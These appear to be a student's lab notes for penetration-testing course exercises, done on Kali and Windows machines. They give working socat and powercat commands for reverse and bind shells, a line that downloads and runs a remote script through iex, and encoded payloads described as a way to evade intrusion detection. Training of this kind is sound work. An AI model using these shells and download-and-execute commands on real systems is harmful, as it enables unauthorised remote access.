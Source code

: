 # 4.2.5 exercises
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Use **socat ** to transfer **powercat.ps1 ** from your Kali machine to your Windows system. Keep the file on your system for use in the next section.
host
`sudo socat TCP4-LISTEN:443,fork file:powercat.ps1`
recipient
`socat TCP4:192.168.119.249:443 file:received_powercat.ps1,create`
![[Pasted image 20220218121253.png]]

2.  Use **socat ** to create an encrypted reverse shell from your Windows system to your Kali machine.
generate the key
`openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`
combine .key and .crt into .pem
`cat bind_shell.key bind_shell.crt > bind_shell.pem`
create listener using .pem and execute shell
`sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
connect 
`socat - OPENSSL:192.168.119.249:443,verify=0`
![[Pasted image 20220218122213.png]]
# !!SKIPPED QUESTIONS RETURN HERE!!
3.  Create an encrypted bind shell on your Windows system. Try to connect to it from Kali without encryption. Does it still work?
use previously generated .pem
start socat listener
`socat -d -d OPENSSL-LISTEN:443,cert=shell.pem,verify=0 STDOUT`
target windows machine do a callback using socat
`socat OPENSSL:192.168.119.218:443,verify=0 EXEC:/bin/bash`

4.  Make an unencrypted **socat ** bind shell on your Windows system. Connect to the shell using Netcat. Does it work?


# 4.3.9 exercises
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Use **PowerShell** and **powercat** to create a reverse shell from your Windows system to your Kali machine.
run dot-sourcing script
`. .\powercat.ps1`
or use iex cmdlet
`iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')`
start listener on local machine
`nc -lnvp 9999`
use powershell on remote machine to connect to listener
`powercat -c <IP> -p <PORT> -e cmd.exe`
![[Pasted image 20220218171345.png]]
![[Pasted image 20220218171401.png]]
2.  Use **PowerShell** and **powercat** to create a bind shell on your Windows system and connect to it from your Kali machine. Can you also use **powercat** to connect to it locally?
create bind shell in powershell with powercat
`powercat -l -p 443 -e cmd.exe`
connect with nc on local machine
`nc -nv <IP> <PORT>`
to connect locally using powercat simply run powercat with -c flag in seperate terminal
`powercat -c 127.0.0.1 -p <PORT> `

3.  Use **powercat** to generate an encoded payload and then have it executed through **powershell**. Have a reverse shell sent to your Kali machine, also create an encoded bind shell on your Windows system and use your Kali machine to connect to it.
generate powercat payload
`powercat -c <IP> -p <PORT> -e cmd.exe -g > reverseshell.ps1`
or encade in base64 to avoid IDS
`powercat -c <IP> -p <PORT> -e cmd.exe -ge > encoded_reverseshell.ps1`
start listener on local machine
`nc -lnvp <PORT>`
start reverse shell by running .ps1 file
`.\reversehell.ps1`
or if encoded, running posershell.exe with -E flag and encoded payload
`powershell.exe -E <ENCODED_PAYLOAD_HERE>`
###### easy copy/paste in powershell
`Get-Content C:\Users\user1\.ssh\id_ed25519.pub | Set-Clipboard`
![[Pasted image 20220218173555.png]]
![[Pasted image 20220218173813.png]]
